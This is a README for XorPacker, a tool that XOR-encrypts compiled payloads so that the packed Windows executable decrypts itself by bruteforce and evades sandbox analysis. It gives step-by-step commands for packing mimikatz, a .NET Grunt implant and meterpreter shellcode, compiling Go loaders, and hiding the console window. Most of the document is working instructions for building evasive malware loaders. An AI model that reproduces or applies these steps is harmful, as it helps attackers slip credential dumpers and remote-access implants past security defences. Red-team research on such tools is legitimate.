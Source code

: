 # XorPacker

XorPacker encrypts regularly compiled payloads. The resulting PE uses a bruteforce attack to decrypt the payload and evade sandbox.


## Packing unmanaged PE

1. Build Memory Module (x64 version):

```
apt install cmake
apt install g++-mingw-w64-x86-64 gcc-mingw-w64-x86-64 g++-mingw-w64-i686 gcc-mingw-w64-i686
git clone --recurse-submodules https://github.com/tmenochet/XorPacker
cd XorPacker/MemoryModule
mkdir build; cd build
cmake ..
make MemoryModule
```

Change the following line in CMakeLists.txt to build x86 version:

```
set (PLATFORM "i686" CACHE STRING "Platform to compile for")
```

2. Generate the packed PE:

```
python3 ./xorpacker.py -f mimikatz.exe -t UNMANAGED
```

3. Compile the resulting GO code:

```
apt install golang-go-windows-amd64 golang-go-windows-386
# Build x64 version
GOOS=windows GOARCH=amd64 CGO_ENABLED=1 CC=x86_64-w64-mingw32-gcc go build payload.go
# Build x86 version
GOOS=windows GOARCH=386 CGO_ENABLED=1 CC=i686-w64-mingw32-gcc go build payload.go
```

Additionally, consider the use of the following flags in the GO build command:
  * `-trimpath`: remove file system paths
  * `-ldflags "-w -s"`: strip debug (DWARF) & classic symbols
  * `-ldflags "-H=windowsgui"`: hide Terminal window


## Packing .NET assembly

1. Install Donut's Python extension:

```
pip3 install donut-shellcode
```

2. Generate the packed PE (x64 version):

```
python3 ./xorpacker.py -f Grunt.exe -t MANAGED -a x64
```

3. Compile the resulting GO code:

```
GOOS=windows GOARCH=amd64 go build payload.go
```


## Packing shellcode

1. Generate the packed PE:

```
python3 ./xorpacker.py -f meterpreter.raw -t SHELLCODE
```

2. Compile the resulting GO code:

```
GOOS=windows GOARCH=amd64 go build payload.go
```


## Credits

* https://github.com/Sogeti-Pentest/Encrypter-Metasploit
* https://github.com/vyrus001/go-mimikatz
* https://thewover.github.io/Introducing-Donut
